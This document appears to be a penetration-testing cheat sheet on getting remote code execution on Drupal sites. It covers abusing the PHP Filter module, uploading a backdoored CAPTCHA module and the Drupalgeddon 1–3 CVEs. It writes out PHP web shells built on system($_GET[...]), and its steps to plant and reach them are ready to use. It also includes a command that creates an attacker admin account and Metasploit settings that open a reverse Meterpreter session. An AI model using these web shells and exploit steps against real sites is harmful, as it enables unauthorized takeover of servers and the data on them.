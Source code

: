 
### **Overview**

- Drupal is **less trivial** to exploit via admin console than WordPress/Joomla
- Various methods available depending on version, installed modules, and access level

---

### **Method 1: PHP Filter Module (Pre-Drupal 8)**

- Admin can enable _PHP Filter_ to evaluate embedded PHP in content
- Steps:
    
1. **Enable PHP Filter** module
2. Create **Basic Page** → Add PHP shell:
```php
<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>
```
3. Set **Text format** to _PHP code_
4. Access shell via URL:
```bash
http://target/node/<id>?dcfdd5e021a869fcc6dfaef8bf31377e=id
```
**Note**: PHP Filter not installed by default in Drupal 8+
- Must download from: [https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz](https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz)
- Install via _Available Updates_ or _Extend > Install New Module_

---

### **Method 2: Uploading Backdoored Module**

- Drupal allows **admin** users to upload modules
- Create a **malicious version** of an existing module (e.g., CAPTCHA)

#### Steps:

1. Download & extract original module:
```bash
wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
2. Add web shell:
```php
<?php system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']); ?>
```
3. Add `.htaccess` to allow access:
```apache
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
4. Archive
```bash
tar cvf captcha.tar.gz captcha/
```
5. Upload via **Extend > Install New Module**
6.  Shell access:
```bash
http://target/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

---

### **Drupalgeddon Vulnerabilities**

#### **CVE-2014-3704 (Drupalgeddon 1)**

- Affects: 7.0 → 7.31
- Pre-auth **SQLi → RCE or admin user creation**

##### Exploit:
```bash
python2 drupalgeddon.py -t http://target -u hacker -p pwnd
```
- Creates admin: `hacker:pwnd`

#### **CVE-2018-7600 (Drupalgeddon 2)**

- Affects: < 7.58 / < 8.5.1
- Unauthenticated **RCE via user registration**

##### Steps:
1. Confirm vuln:
```bash
python3 drupalgeddon2.py
```
2. Upload PHP shell via base64:
```bash
<?php system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']); ?>
```
	- Base64 encode and inject via modified PoC
3. Access shell:
```bash
http://target/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

#### **CVE-2018-7602 (Drupalgeddon 3)**

- Affects: 7.x / 8.x
- Requires **authenticated user** with _delete node_ permission

##### Exploit via Metasploit:
```bash
use exploit/multi/http/drupal_drupageddon3
set RHOSTS <target_ip>
set VHOST <vhost>
set DRUPAL_SESSION <session_cookie>
set DRUPAL_NODE <node_id>
set LHOST <your_ip>
exploit
```
- Yields a **Meterpreter session** as `www-data`